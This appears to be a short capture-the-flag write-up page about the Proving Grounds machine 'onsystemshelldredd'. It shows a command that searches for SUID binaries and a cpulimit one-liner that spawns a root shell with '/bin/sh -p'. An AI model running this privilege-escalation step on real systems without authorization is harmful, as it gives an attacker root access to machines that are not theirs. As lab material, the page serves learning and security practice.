 ```yaml
---
layout: default
title: cpulimit
parent: SUID
nav_order: 3
---
```


# cpulimit

---

```bash
find / -perm -u=s -type f 2>/dev/null
```

![suid](../../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/suid.png)

![gtfobins](../../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/gtfobins.png)

## Exploit Cpulimit SUID to get root

```bash
cpulimit -l 100 -f -- /bin/sh -p
```

![root](../../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/root.png)
